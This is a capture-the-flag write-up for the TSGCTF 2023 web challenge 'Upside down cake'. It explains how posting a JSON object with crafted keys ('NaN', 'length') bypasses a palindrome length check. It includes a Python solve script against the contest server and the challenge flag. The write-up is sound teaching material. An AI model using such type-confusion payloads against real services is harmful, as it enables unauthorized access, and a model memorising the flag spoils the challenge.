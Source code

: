 ```yaml
---
title: 2023 TSGCTF - Upside down cake
author: thanguyen165
date: 2023-11-04 00:00:00 +0700
categories: [Write-ups, 2023_TSGCTF]
tags: [Web Exploitation, write-ups]
---
```


* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

[upside-down_cake.zip](./attached/upside-down_cake.zip)

```mjs
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```
{: file="main.mjs" }

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```mjs
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
{: file="nginx.conf" }

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only string is allowed?

## Exploitation

We can post an object, or an array.

Array dont work here, because it wont pass the length condition.

We need a data type that dont have length attribute.

That's object, aka map in C++, dictionary in Python.

### Way 1

With an object, ```string.length``` returns ```undefined```, an the condition ```string.length < 1000``` returns ```true```. Pass!

But there is a problem with the loop. The index ```string.length - i - 1``` is inaccessible.

Slow down a little bit, ```string.length - i - 1``` equals to ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Way 2

This is an object, so its attributes are accessible by dot operator, too! It tooks me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```